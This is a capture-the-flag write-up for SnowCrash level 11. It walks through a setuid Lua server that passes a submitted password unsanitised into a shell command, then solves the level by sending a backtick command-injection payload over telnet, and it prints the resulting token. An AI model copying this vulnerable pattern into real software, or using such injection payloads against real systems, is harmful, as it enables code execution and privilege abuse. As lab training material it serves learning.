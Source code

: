 ## Level 11


## Clues


```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
level11@SnowCrash:~$
```


We have .lua file :
``` lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Very interessting script let's explain it briefly :

It is using a socket library to make a socket connection, that listen on the port 5151

It ask for the user a password, and will hash it using the sha1.

Nothing interesting in this part beside the function hash(), it takes a password as a parameter and is used in the poen function as a parameter of echo.

This is clearly vulnerable ton an injection.

When we launch the script this happens :

```
lua: ./level11.lua:3: address already in use
stack traceback:
        [C]: in function 'assert'
        ./level11.lua:3: in main chunk
        [C]: ?
level11@SnowCrash:~
```
Normal, since the script is connecting 127.0.0.1:5151 We easily guess its already being runned by the flag11 user, so lets just log to it using telnet.

```
level11@SnowCrash:~$ telnet 127.0.0.1 5151
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Password: hey bro
Erf nope..
Connection closed by foreign host.
level11@SnowCrash:~$
```

## Solution

Since we saw the injection vulnerability, lets exploit it.

```
level11@SnowCrash:~$ telnet 127.0.0.1 5151
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Password: `getflag` > /tmp/flag
Erf nope..
Connection closed by foreign host.
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
level11@SnowCrash:~$
```

Very simple flag beside the fact that there is a lot of details in this level.

## What i learned

More attention to vulnerabilty

More curiosity